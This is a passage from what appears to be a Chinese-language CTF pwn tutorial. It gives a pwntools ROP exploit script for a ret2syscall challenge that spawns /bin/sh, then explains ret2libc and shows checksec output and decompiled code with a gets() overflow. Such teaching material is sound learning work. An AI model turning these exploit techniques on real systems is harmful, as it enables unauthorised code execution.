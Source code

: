 4、构造脚本

```bash
# -*- coding: utf-8 -*-
from pwn import *

p = process('./ret2syscall')
pop_eax_ret = 0x080bb196
pop_edx_ecx_ebx_ret = 0x0806eb90
bin_sh_addr = 0x080be408
int_0x80 = 0x08049421
payload = flat(['A'*118,pop_eax_ret,0xb,pop_edx_ecx_ebx_ret,0,0,bin_sh_addr,int_0x80])

p.sendline(payload)
p.interactive()
```

## ret2libc

### 原理

动态链接的情况下，程序链接的时候不会将库中的所有函数都链接进来，只有在执行的时候加载相应的程序。所以控制执行 lbic 中的函数，通常是返回至某个函数的 plt 处或者函数的具体位置 (即函数对应的 got 表项的内容)，一般选择 system("/bin/sh")

1、分 3 种情况：

-   程序中能够找到 system 函数和'/bin/sh'字符串
-   程序中只存在一个
-   程序中两者都不存在 (准确来说，这种才是真正的 ret2libc)

### 利用

1、检测程序开启的保护

```bash
qufeng@qufeng-virtual-machine:~/Desktop/pwn1$ checksec ret2libc3
[*] '/home/qufeng/Desktop/pwn1/ret2libc3'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

开启了 NX 保护，不能写入 shell

2、IDA 分析

```bash
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char s; // [esp+1Ch] [ebp-64h]

  setvbuf(stdout, 0, 2, 0);
  setvbuf(stdin, 0, 1, 0);
  puts("No surprise anymore, system disappeard QQ.");
  printf("Can you find it !?");
  gets(&s);
  return 0;
}
```
